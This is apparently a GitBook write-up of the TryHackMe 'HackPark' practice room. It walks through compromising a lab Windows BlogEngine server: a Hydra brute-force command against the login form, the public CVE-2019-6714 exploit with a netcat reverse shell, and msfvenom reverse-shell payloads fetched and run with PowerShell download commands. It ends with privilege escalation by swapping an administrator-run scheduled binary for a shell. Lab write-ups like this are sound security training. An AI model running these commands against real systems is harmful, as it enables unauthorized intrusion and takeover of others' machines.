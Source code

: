 # HackPark

**Room Link:** [https://tryhackme.com/room/hackpark](https://tryhackme.com/room/hackpark)



### Using Hydra to brute-force a login

**What request type is the Windows website login form using?**

<figure><img src="../../.gitbook/assets/image (11) (3) (1).png" alt=""><figcaption></figcaption></figure>

**Crafting request for Hydra**

Sent a failed login request to Burp to see what it would look like. With this info I was able to craft my request for hydra. I just needed to get the URL and everything that is sent after VIEWSTATE and just change the input to use ^USER^ and ^PASS^ to brute force these fields.

<figure><img src="../../.gitbook/assets/image (20) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

I could also do this without burp by just opening the console and getting the info from there

<figure><img src="../../.gitbook/assets/image (7) (2) (1) (1).png" alt=""><figcaption></figcaption></figure>

{% code overflow="wrap" %}
```bash
hydra -l admin -P /usr/share/wordlists/SecLists/Passwords/darkweb2017-top10000.txt 10.10.110.93 http-post-form "/Account/login.aspx?ReturnURL=/admin/:__VIEWSTATE=vvTqZ%2FG4tEKhQoxeTpJ%2FyGxM9ZY9ZIvd6YMUS%2BoY3uaQCjC%2BJRdlkd8rbIQsDHztL%2BjsAvOLJhxU7vTNo3GP%2FLEmsndGPNAlCDn%2FB%2FrK2ynp9QkhRe9iqKBUmM5FQT2kX%2Bg%2BfPDNnTuzqW5IlmTujw4sLEzbvvec9FDW4cbQevgTj1tHnKx0vMmkVah5imro0o%2BHvQ5%2FGvpafEs1NdnW6wrSsUFuXnYzletKCdLG%2FgSb7bCDOK4ukZK%2F1cMOgYtjOCU4gk4M7PhQcYZmGpAN7pPVCMpX2YwGnTSgBPPmCB6avoLqG5jRS%2F3PYMjsqEGcD9P9S555GMQPxtfyvOEaJw%2B%2BZELKU2yVYr4uWxamEITsWNAT&__EVENTVALIDATION=Tp%2B5DS80H3PFB8ipJ24uKyHkPhSkqKD7GFJlc2U6IaO61l68aholdIjrZJ%2FsotSi0QxRBQjayWovmb2SU%2Fk6lY%2BOpju62jOGDkAvqcdNsqGrgf3vrAYw88XT2ONABFvDTR771I2YAr7JylJ0HbBZV83nGvvXWSC6rmKDGn80%2FuszTjDZ&ctl00%24MainContent%24LoginUser%24UserName=^USER^&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in:F=Login failed" -V
```
{% endcode %}

<figure><img src="../../.gitbook/assets/image (3) (3) (2) (1).png" alt=""><figcaption><p>Credentials found</p></figcaption></figure>

### Compromise the machine

**Now you have logged into the website, are you able to identify the version of the BlogEngine?**

<figure><img src="../../.gitbook/assets/image (22) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**What is the CVE?**

CVE-2019-6714

**Exploit Link:** [https://www.exploit-db.com/exploits/46353](https://www.exploit-db.com/exploits/46353)

**Using the public exploit, gain initial access to the server. Who is the webserver running as?**

Created the file mentioned in the exploit, just changed the IP to my IP.

<figure><img src="../../.gitbook/assets/image (6) (1) (2).png" alt=""><figcaption></figcaption></figure>

Setup a nc listener&#x20;

```
rlwrap nc -lvnp 4445
```

Upload the file

<figure><img src="../../.gitbook/assets/image (24) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (12) (2) (1).png" alt=""><figcaption></figcaption></figure>

Navigate to the link and the nc listener should have caught it

<figure><img src="../../.gitbook/assets/image (1) (2) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (20) (2) (1).png" alt=""><figcaption></figcaption></figure>

### **Windows Privilege Escalation**

**Setting up meterpreter shell**

**Kali #1**&#x20;

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.218.233 LPORT=1337 -e x86/shikata_ga_nai -f exe -o reverse.exe
python2 -m SimpleHTTPServer 81
```

**Kali #2**&#x20;

```
msfconsole 
use exploit/multi/handler 
set PAYLOAD windows/meterpreter/reverse_tcp 
set LHOST 10.10.218.233  
set LPORT 1337 
run
```

**Victim**&#x20;

```
cd C:\Windows\Temp powershell "(New-Object System.Net.WebClient).Downloadfile('http://10.10.218.233:81/reverse.exe','reverse.exe')" reverse.exe
```

**What is the OS version of this windows machine?**

<figure><img src="../../.gitbook/assets/image (1) (2) (2).png" alt=""><figcaption></figcaption></figure>

**Further enumerate the machine. What is the name of the abnormal **_**service**_** running?**



**Check Windows Exploit Suggester**

**Kali**

```
git clone https://github.com/AonCyberLabs/Windows-Exploit-Suggester.git 
cd Windows-Exploit-Suggester/ 
python3.9 windows-exploit-suggester.py --update 
python3.9 windows-exploit-suggester2.py --database 2022-12-03-mssb.xls --systeminfo systeminfo.txt
```

**Transfer WinPeas**

**Kali**&#x20;

```
wget https://github.com/carlospolop/PEASS-ng/releases/download/20221127/winPEASx64.exe 
python2 -m SimpleHTTPServer 81
```

**Victim**&#x20;

```
cd C:\Windows\Temp
powershell "(New-Object System.Net.WebClient).Downloadfile('http://10.10.218.233:81/winPEASx64.exe','winPEASx64.exe')" 
winPEASx64.exe
```

![](<../../.gitbook/assets/image (25) (1) (1) (1) (1) (1).png>)

<figure><img src="../../.gitbook/assets/image (19) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

```
cd C:\Program Files (x86)\SystemScheduler\Events
type 20198415519.INI_LOG.txt
```

We can see Message.exe is kept being ran by Administrator so we just need to replace the file with our reverse shell, setup a listener and wait for the Administrator to try to run it.

<figure><img src="../../.gitbook/assets/image (9) (3) (1).png" alt=""><figcaption><p>Message.exe is called by Administrator </p></figcaption></figure>



**Kali**&#x20;

```
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.218.233 LPORT=1337 -f exe -o Message.exe 
python2 -m SimpleHTTPServer 81 rlwrap nc -lvnp 1337
```

**Victim**&#x20;

```
cd C:\Program Files (x86)\SystemScheduler 
powershell "(New-Object System.Net.WebClient).Downloadfile('http://10.10.218.233:81/Message.exe','Message.exe')"
```

<figure><img src="../../.gitbook/assets/image (16) (2) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (8) (2) (1) (1).png" alt=""><figcaption></figcaption></figure>

